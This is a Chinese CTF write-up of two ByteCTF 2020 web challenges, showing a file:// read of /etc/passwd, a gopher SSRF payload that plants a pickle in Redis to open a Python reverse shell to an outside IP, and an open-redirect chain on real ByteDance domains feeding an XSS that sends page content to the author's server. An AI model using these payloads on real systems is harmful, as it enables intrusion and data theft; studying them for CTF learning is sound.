 date: 2020-10-26
categories:
- 比赛
tags:
- web
- ctf
- wp
title:  2020ByteCTF
---
# ByteCTF2020

## web

### easy_scrapy

体验一编网站的功能后，发现如下api

```
/list
/push post:url=https%3A%2F%2Fwww.4399.com&code=16674458
/result?url=https://www.4399.com
```

让网站爬取自己的服务器以获得请求头

```
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en
User-Agent: scrapy_redis
Accept-Encoding: gzip, deflate
Host: ccreater.top:60000


```

通过ua头发现是：scrapy_redis

本地搭建scrapy_redis服务爬取网站，查看redis里设置的键值，发现myscrapy:requests中

![image528](https://raw.githubusercontent.com/Explorersss/photo/master/20201026113031.png)



存在的pickle数据

网站自然提交http和https协议的url，但是因为是爬虫猜测嵌入一个a标签就可以绕过这个限制

提交如下网站

```
<a href="file:///etc/passwd">
```



成功读取到/etc/passwd，把爬虫代码爬下来本地测试

scrapy.cfg

```python
# Automatically created by: scrapy startproject
#
# For more information about the [deploy] section see:
# https://scrapyd.readthedocs.io/en/latest/deploy.html

[settings]
default = bytectf.settings

[deploy]
#url = http://localhost:6800/
project = bytectf
```

bytectf/settings.py

```python
BOT_NAME = 'bytectf'
SPIDER_MODULES = ['bytectf.spiders']
NEWSPIDER_MODULE = 'bytectf.spiders'
RETRY_ENABLED = False
ROBOTSTXT_OBEY = False
DOWNLOAD_TIMEOUT = 8
USER_AGENT = 'scrapy_redis'
SCHEDULER = "scrapy_redis.scheduler.Scheduler"
DUPEFILTER_CLASS = "scrapy_redis.dupefilter.RFPDupeFilter"
REDIS_HOST = '172.20.0.7'
REDIS_PORT = 6379
ITEM_PIPELINES = {
   'bytectf.pipelines.BytectfPipeline': 300,
}
```

bytectf/byte.py

```python
import scrapy
import re
import base64
from scrapy_redis.spiders import RedisSpider
from bytectf.items import BytectfItem

class ByteSpider(RedisSpider):
    name = 'byte'

    def parse(self, response):
        byte_item = BytectfItem()
        byte_item['byte_start'] = response.request.url#ä¸»é®ï¼åå§url
        url_list = []
        test = response.xpath('//a/@href').getall()
        for i in test:
            if i[0] == '/':
                url = response.request.url + i
            else:
                url = i
            if re.search(r'://',url):
                r = scrapy.Request(url,callback=self.parse2,dont_filter=True)
                r.meta['item'] = byte_item
                yield r
                url_list.append(url)
                if(len(url_list)>3):
                    break
        byte_item['byte_url'] = response.request.url
        byte_item['byte_text'] = base64.b64encode((response.text).encode('utf-8'))
        yield byte_item

    def parse2(self,response):
        item = response.meta['item']
        item['byte_url'] = response.request.url
        item['byte_text'] = base64.b64encode((response.text).encode('utf-8'))
        yield item
```

bytectf/items.py

```python
import scrapy


class BytectfItem(scrapy.Item):
    # define the fields for your item here like:
    # name = scrapy.Field()
    byte_start = scrapy.Field()#
    byte_text = scrapy.Field()#text
```

bytectf/pipelines.py

```python
import pymongo

class BytectfPipeline:
    def __init__:
        MONGODB_HOST = '172.20.0.8'
        MONGODB_PORT = 27017
        MONGODB_DBNAME = 'result'
        MONGODB_TABLE = 'result'
        MONGODB_USER = 'N0rth3'
        MONGODB_PASSWD = 'E7B70D0456DAD39E22735E0AC64A69AD'
        mongo_client = pymongo.MongoClient("%s:%d" % (MONGODB_HOST, MONGODB_PORT))
        mongo_client[MONGODB_DBNAME].authenticate(MONGODB_USER, MONGODB_PASSWD, MONGODB_DBNAME)
        mongo_db = mongo_client[MONGODB_DBNAME]
        self.table = mongo_db[MONGODB_TABLE]



    def process_item(self, item, spider):
        quote_info = dict(item)
        print(quote_info)
        self.table.insert(quote_info)
        return item
```

测试`<a href="gopher://.....">`发现并不能解析gopher协议

继续测试发现接口`/result?url=https://www.4399.com`，也存在ssrf漏洞且至此gopher协议

传入以下payload:

```
gopher%3a//172.20.0.7%3a6379/_%250D%250Azadd%2520byte%253Arequests%25201%2520%2522cos%255Cnsystem%255Cn%2528S%2527python%2520-c%2520%255Cx27import%2520socket%252Csubprocess%252Cos%253Bs%253Dsocket.socket%2528socket.AF_INET%252Csocket.SOCK_STREAM%2529%253Bs.connect%2528%2528%255Cx2239.108.164.219%255Cx22%252C60003%2529%2529%253Bos.dup2%2528s.fileno%2528%2529%252C0%2529%253B%2520os.dup2%2528s.fileno%2528%2529%252C1%2529%253B%2520os.dup2%2528s.fileno%2528%2529%252C2%2529%253Bp%253Dsubprocess.call%2528%255B%255Cx22/bin/sh%255Cx22%252C%255Cx22-i%255Cx22%255D%2529%253B%255Cx27%2527%255CntR.%2522%250D%250Aquit%250D%250A
```

成功弹回shell

### douyin_vedio

题目描述

>Do you like douyin video?
>Submit your payload at http://c.bytectf.live:30002/
>
>( Server URLs which only admin can access:
>http://a.bytectf.live:30001/
>http://b.bytectf.live:30001/ )

题目中只能将http://a.bytectf.live:30001/ 开头的url发给管理员，而c.bytectf.live中存在未过滤的xss点

思路就很清晰了，想办法跳转到c.bytectf.live再说，我们查看源代码发现：

```
RewriteRule /favicon.ico$ /favicon.ico [QSA,PT,L]
RewriteRule /$ / [QSA,PT,L]
RewriteRule /search$ /search [QSA,PT,L]
RewriteRule /send$ /send [QSA,PT,L]
RewriteRule /static/(.*)$ /static/$1 [QSA,PT,L]
RewriteRule (.*)$ http://www.douyin.com$1  
```



最后一个神奇的重写规则，所以我们只要在www.douyin.com下找到一个任意url跳转就可以执行c.bytectf.live的xss

通常url跳转常出现在登入登出，还有外站url跳转，顺着这个思路我们可以找到`http://www.douyin.com/logout/?next=https%3A%2F%2Fwww.douyin.com/23333`可以跳转到部分域名(www.douyin.com , creator.douyin.com ...)

这样就扩大了我们的攻击面，继续按照相同的思路进一步扩大攻击面的url:`https://creator.douyin.com/passport/web/logout/?next=https://www.douyin.com`

测试发现可以跳转到任意`douyin.com/bytedance.com/.bytecdn.cn/ixigua.com/bytedance.net/snssdk.com/toutiao.com/huoshan.com/jinritemai.com`结尾的域名

接着用谷歌搜索：`site:xxxxxxx.com 跳转` 发现任意url跳转:`https://tsearch-quic.snssdk.com/search/jump?url=http://ccreater.top:60080`

组合成跳转到c.bytectf.live的url:

```
http://a.bytectf.live:30001/logout?next=https%3a//creator.douyin.com/passport/web/logout/%3fnext%3dhttps://tsearch-quic.snssdk.com/search/jump?url=http://c.bytectf.live:30002/?action=post%25252526id=b44cb32f302e2d4249dea06a2ffa0da1
```

因为安全策略的设置问题(`frame-ancestors http://*.bytectf.live:*/`覆盖了`['X-Frame-Options'] = 'sameorigin'`)，导致我们可以直接作为iframe导入，读取内容

```
	resp.headers['X-Frame-Options'] = 'sameorigin'
    resp.headers['Content-Security-Policy'] = "default-src http://*.bytectf.live:*/ 'unsafe-inline'; frame-src *; frame-ancestors http://*.bytectf.live:*/"
    resp.headers['X-Content-Type-Options'] = 'nosniff'
    resp.headers['Referrer-Policy'] = 'same-origin'
```

所以xss的代码是：

```javascript
document.domain="bytectf.live"; 
flagPage=document.createElement("iframe"); flagPage.src="http://a.bytectf.live:30001/?keyword=B"; document.body.append(flagPage); setTimeout(()=>{ document.location="http://ccreater.top:60001/"+btoa(document.body.getElementsByTagName("iframe")[0].contentWindow.document.body.innerHTML) },500)

```

但是不知道为啥iframe.src=`http://a.bytectf.live:30001/`可以获取到内容，而`http://a.bytectf.live:30001/send`却不可以。。。

监听端口成功拿到flag

